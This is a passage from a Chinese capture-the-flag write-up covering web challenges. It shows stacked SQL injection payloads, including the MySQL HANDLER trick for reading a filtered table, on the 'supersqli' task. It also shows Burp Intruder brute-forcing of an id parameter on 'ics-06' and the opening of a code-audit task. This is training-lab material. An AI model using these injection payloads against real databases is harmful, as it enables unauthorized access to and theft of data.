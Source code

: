 

获取数据库目录（1’;show databases;）(堆叠注入)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133719416.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


（1’;use supersqli;show tables;）查看表：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133751360.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


想法获取表（1919810…）中的列：
（1';use supersqli;show columns from \`1919810931114514\`;）

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133813868.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


至此supersqli目录下的191…表下的flag列呈现在眼前，想法查看flag的内容即可

我们已经知道列flag是表191的第一个文件使用handler：

(1’;handler \`1919…\` open;handler \`1919…\` read first;)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021011213383018.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



得到flag

6.ics-06（数字爆破）

知识点：使用bs尝试爆破简单的数字密码，使用intruder模块

题目说报表中心，就点报表中心
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133852864.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


Id=1，可以尝试爆破，直接burpsuite

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133903466.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


>    Id=2333

7.Warmup

>   知识点：代码审计

疑问：为何file=source.php不可以直接绕过第一个if
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134011251.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134018180.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134025717.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



解：先看源码有 source.php先访问一下

还有个hint.php访问得到

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134050427.png)
